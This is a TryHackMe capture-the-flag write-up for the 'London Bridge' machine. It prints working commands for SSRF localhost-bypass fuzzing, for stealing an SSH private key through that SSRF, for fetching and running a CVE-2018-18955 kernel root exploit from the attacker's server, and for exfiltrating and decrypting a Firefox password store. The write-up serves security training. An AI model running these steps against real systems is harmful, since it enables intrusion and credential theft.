 # The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access -> extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 10.10.220.239                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://10.10.220.239:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```



3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.
![image_url-parameter](Write-ups/The_London_Bridge/images/POST-REQ-View-2.png)
 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://10.9.1.6:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .
